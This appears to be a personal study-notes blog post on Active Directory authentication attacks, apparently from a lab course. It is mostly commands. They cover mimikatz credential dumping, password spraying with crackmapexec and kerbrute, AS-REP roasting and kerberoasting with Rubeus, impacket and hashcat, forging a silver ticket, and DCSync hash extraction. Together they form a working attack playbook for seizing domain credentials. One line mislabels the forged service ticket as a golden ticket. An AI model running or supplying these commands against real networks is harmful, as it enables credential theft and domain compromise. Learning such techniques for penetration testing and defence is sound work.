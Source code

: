 ```yaml
---
layout: post
title: Active Directory Auth Attacks
titledate: 09/26/23
tags: ["infosec", "offsec", "ad", "powershell", "mimikatz", "rubeus", "impacket", "hashcat"]
---
```


#### pass cracking

    PS> .\mimikatz.exe

dump user hashes

    mimikatz# sekurlsa::logonpasswords

open another powershell window to create a service ticket

    PS> dir \\web04.corp.com\backup

can show that ticket in mimikatz

    mimikatz# sekurlsa::tickets

view lockout information

    PS> net accounts

slow password spraying attack using LDAP and ADSI

    PS> powershell -ep bypass

we can use a wordlist for passwords

    PS> .\Spray-Passwords.ps1 -Pass password! -Admin

our attack machine also has the tool crackmapexec that we can use to perform a similar sprayin function with an argument continue-on-success that will continue guessing even if accounts are found
    
    $ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success

### crackmapexec output is Pwned if user has admin privs on a machine

another tool is called kerbrute

    PS> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt .\passwords.txt

for these 2 tools we can provide a list of usersnames that we've enumerated for the domain or we can use built in enumeration options in the tools

#### AS-REP roasting

if we have discovered pete's creds we can use GetNPUsers

    $ impacket-GetNPUsers -dc-ip 192.168.1.1  -request -outputfile hashes.asreproast corp.com/jim

this determines another user dave has the option Do not require Kerberos preauth enabled

this means his account is vulnerable to AS-REP roasting

let's determine which mode to use with hashcat

    $ hashcat --help | grep -i "Kerberos"

    $ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

to peform as-rep roasting on widows we use Rubeus

    PS> .\Rubeus.exe asreproast /nowrap

this will give us the as-rep hash of a user

then back on our kali machine 

    $ sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

#### kerberoasting

    PS> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

we need hashcat to crack a TGS-rep hash

    $ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

if we can't run rubeus we can use impacket

    $ sudo impacket-GetUserSPNs -request -dc-ip 192.168.1.1 corp.com/john

#### silver ticket

we need a silver ticket to get access to an HTTP SPN resource

let's see if our user has access to the resource of the HTTP SPN mapped to the iis_service

    PS> iwr -UseDefaultCredentials http://web04

launch PS as admin adn load mimikatz

    mimikatz# privilege::debug

now we can dump the NTLM hash of the user that is mapped to the HTTP SPN , in this case iis_service

    mimikatz# sekurlsa::logonpasswords

this will give us the SID we need

    mimikatz# kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

this will create a golden ticket for the user jeffadmin

we confirm our ticket is created and available

    PS> klist

### NOTE: needs to happen inside the same cmd window/ process

now we can try to verify if we have access to the HTTP SPN like we did before

    PS> (iwr -UseDefaultCredentials http://web04).Content

.Content to get the html content of the page

we've forged a service ticket for a user that gives us access to a web page

#### dcsync 

we canuse mimikatz for this attack

    mimikatz# lsadump::dcsync /user:corp\jim

then crack the pass with hashcat

    $ hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

against the admin

    mimikatz# lsadump::dcsync /user:beyond\Administrator

with impacket providing a user with access and the domain controller

    $ impacket-secretsdump -just-dc-user jim corp.com/jeffadmin:"pass123!"@192.168.1.1